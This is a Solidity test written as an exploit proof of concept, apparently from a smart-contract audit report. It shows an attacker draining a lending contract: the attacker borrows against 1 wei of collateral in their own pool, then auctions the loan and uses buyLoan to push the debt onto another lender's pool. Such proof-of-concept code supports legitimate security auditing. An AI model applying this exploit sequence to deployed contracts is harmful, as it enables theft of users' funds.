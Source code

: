 ```solidity
    bytes32 poolId = lender.setPool(p);

    // Before the exploit
    assertEq(collateralToken.balanceOf(address(lender)), 0);
    assertEq(loanToken.balanceOf(address(lender)), 1_000*10**18);       // Lender has 1_000 loanToken
    assertEq(collateralToken.balanceOf(address(attacker)), 2);          // Attacker has 2 wei of collateral token  
    assertEq(loanToken.balanceOf(address(attacker)), 1_000*10**18);     // Attacker has 1_000 loanToken

    // Exploit starts here
    vm.startPrank(attacker);
    // (1) Create a pool
    loanToken.approve(address(lender), 1_000*10**18);
    Pool memory attackerPool = Pool({
        lender: attacker,
        loanToken: address(loanToken),
        collateralToken: address(collateralToken),
        minLoanSize: 1,
        poolBalance: 1000*10**18,
        maxLoanRatio: type(uint256).max,
        auctionLength: 5 minutes,
        interestRate: 0,
        outstandingLoans: 0
    });
    bytes32 attackerPoolId = lender.setPool(attackerPool);
    // (2) Take a loan in his own pool
    collateralToken.approve(address(lender), 2);
    Borrow memory b = Borrow({
        poolId: attackerPoolId,
        debt: 1_000*10**18,
        collateral: 1
    });
    Borrow[] memory borrows = new Borrow[](1);
    borrows[0] = b;        
    lender.borrow(borrows); // Attacker has now 995*10**18 loanTokens
    assertEq(loanToken.balanceOf(address(attacker)), 995*10**18);
    // (3) Put the loan for auction
    uint256 loanId = 0;
    uint256[] memory loanIds = new uint256[](1);
    loanIds[0] = loanId;
    lender.startAuction(loanIds);
    // (4) Call `buyLoan` to transfer the debt to lender1's pool
    // Wait 2 minutes
    vm.warp(block.timestamp + 2 minutes);
    lender.buyLoan(loanId, poolId);
    // (5) Take another loan in his own pool      
    lender.borrow(borrows);

    // After the exploit
    assertEq(collateralToken.balanceOf(address(lender)), 2);
    assertEq(loanToken.balanceOf(address(lender)), 0);              // Lender contract has been drained
    assertEq(collateralToken.balanceOf(address(attacker)), 0); 
    assertEq(loanToken.balanceOf(address(attacker)), 1_990*10**18); // Attacker stole all the tokens (-0.5% of fee)
}
```
